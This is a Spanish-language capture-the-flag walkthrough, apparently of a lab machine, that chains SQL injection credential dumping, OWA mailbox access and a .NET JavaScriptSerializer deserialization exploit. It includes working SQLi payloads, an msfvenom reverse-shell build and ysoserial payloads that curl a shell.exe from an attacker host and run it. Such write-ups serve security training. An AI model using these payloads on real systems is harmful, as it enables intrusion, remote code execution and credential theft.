### But we have SSL!?


Iniciamos la máquina escaneando los puertos de la máquina con `nmap` donde encontramos varios puertos abiertos, y al lanzar algunos `scripts` de propios nmap mssql nos muestra el nombre del equipo y al `dominio` que pertenece

```
❯ nmap 10.13.37.12 -Pn -sCV
Nmap scan report for 10.13.37.12  
PORT     STATE SERVICE
443/tcp  open  https
1433/tcp open  ms-sql-s
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

  

Tenemos el puerto `443` abierto, esta corriendo un servicio `https`, en el navegador podemos ver una pagina `web` bastante simple aunque con varias pestañas en ella



Podemos ver una pestaña `Staff` que realmente solo nos muestra algunos `usuarios`



Al mirar el `codigo` fuente podemos ver directamente la primera `flag`, ademas nos estan mostrando `credenciales` validas para el portal de admin, `jay.teignton:admin`



### That shouldn't be there...

En `/Admin` podemos iniciar sesión con las `credenciales` encontradas en el codigo



Ahora encontramos una pestaña con el nombre `Management` en donde encontramos una tabla con varios `productos` y tenemos la posibilidad de `agregar` uno nuevo



Despues de buscar un rato encontramos una `inyeccion sql`, iniciamos enumerando el nombre de la `base de datos` actualmente en uso, nos devuelve `webapp`

```
'+(select db_name())+'  
```



Enumerando las los objetos de `webapp` especificamente que sean del tipo `tablas` podemos encontrar una llamada `users` que generalmente contiene credenciales

```
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'  
```

  


Al leer el campo `username` de la tabla users nos devuelve el usuario `abbie.buckfast`

```
'+(select top 1 username from users order by username)+'  
```



Hacemos lo mismo con el campo `password` y ahora nos devuelve `AMkru$3_f'/Q^7f?`

```
'+(select top 1 password from users order by username)+'  
```

  


Además de credenciales que encontramos tambien podemos encontrar la `flag`

```
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'  
```

  

### Have we met before?


Aplicando un poco de fuerza bruta hacia la web nos encontramos entre otros con un directorio `/owa` que devuelve nos un codigo de estado `302` redirect

```
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u https://10.13.37.12/FUZZ -t 100 --hc 404  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.13.37.12/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000003:   200        81 L     196 W      2879 Ch     "admin"       
000000077:   401        0 L      0 W        0 Ch        "api"         
000000127:   200        78 L     232 W      2548 Ch     "home"        
000001936:   401        0 L      0 W        0 Ch        "rpc"         
000008263:   302        3 L      8 W        205 Ch      "owa"         
000005512:   403        0 L      0 W        0 Ch        "sapi"        
000014447:   401        0 L      0 W        0 Ch        "autodiscover"
000015098:   302        3 L      8 W        205 Ch      "ecp"         
000020796:   401        0 L      0 W        0 Ch        "ews"
```

  

Al abrir `/owa` en la web podemos ver un panel de `login` para Outlook Web Access


Podemos iniciar sesión con las `credenciales` que hemos conseguido a traves de la `sql injection`, las cuales son las siguientes `abbie.buckfast:AMkru$3_f'/Q^7f?`


Son válidas y conseguimos acceso aunque no tenemos ningun `correo` pendiente, sin embargo tenemos una pestaña donde podemos abrir el `email` de otro `usuario`



Uno de los `usuarios` encontrados en el panel del inicio fue el usuario `jay.teignton` el cual tiene un `email` al cual podemos cambiar y leer todos sus `correos`



En los correos `enviados` encontramos la `flag` en un correo que el usuario `jay.teignton` ha enviado a el usuario `andy.teignton` con el asunto `flag.txt`



### Is it a bird? Is it a plane?


En lo `correos` recibidos tenemos uno de `karl.memaybe` el cual nos dice que hubo un hackeo, ademas este nos comparte un `zip` con el `codigo fuente` del proyecto



Analizando el `codigo` encontramos que este toma el valor de la cookie `Profile`, decodea su valor de `base64` y usa `JavaScriptSerializer` para deserializarla

```
WebApplication/Views/Admin ❯ cat _ViewStart.cshtml
@{
    Layout = "~/Views/Shared/_Layout.cshtml";
}

@using System.Text;
@using System.Web.Script.Serialization;
@{ 
    if (0 != Context.Session.Keys.Count) {
        if (null != Context.Request.Cookies.Get("Profile")) {
            try {
                byte[] data = Convert.FromBase64String(Context.Request.Cookies.Get("Profile")?.Value);  
                string str = UTF8Encoding.UTF8.GetString(data);

                SimpleTypeResolver resolver = new SimpleTypeResolver();
                JavaScriptSerializer serializer = new JavaScriptSerializer(resolver);

                object obj = (serializer.Deserialize(str, typeof(object)) as Profile);
                // TODO: create profile to change the language and font of the website 
            } catch (Exception e) {
            }
        }
    }
}
```

  

Esto es vulnerable a un ataque de `deserialización`, podemos iniciar creando un archivo `exe` con `msfvenom` que se encargara de enviarnos una `powershell` ahora despues de crearlo lo compartimos a traves de un servidor `http` creado con `python`

```
❯ msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o shell.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1893 bytes
Final size of exe file: 8192 bytes
Saved as: shell.exe

❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

  

En un `windows` con [ysoserial](https://github.com/pwntester/ysoserial.net) creamos un payload en `base64` indicando el formato `JavaScriptSerializer` con su respectivo gadget, el cual hara un `curl` a nuestro servidor y descargara el archivo `shell.exe` en el directorio `C:\ProgramData`

```
PS C:\CTF\ysoserial> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl 10.10.14.10/shell.exe -o C:\ProgramData\shell.exe"
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgY3VybCAxMC4xMC4xNC4xMC9zaGVsbC5leGUgLW8gQzpcXFByb2dyYW1EYXRhXFxzaGVsbC5leGUnDQogICAgICAgIH0NCiAgICB9DQp9  
PS C:\CTF\ysoserial>
```

  

Ahora en la web principal creamos una `cookie` con el nombre `Profile` donde como valor le pasaremos todo nuestro `payload` serializado y encodeado en `base64`



Al `recargar` la pagina recibimos una petición al archivo `shell.exe` esto significa que se ha ejecutado el `comando` y ha descargado el archivo exe que hemos creado

```
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
10.13.37.12 - - "GET /shell.exe HTTP/1.1" 200 -
```

  

Creamos un nuevo payload el cual solo ejecutara el archivo exe ya descargado

```
PS C:\CTF\ysoserial> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\ProgramData\shell.exe"
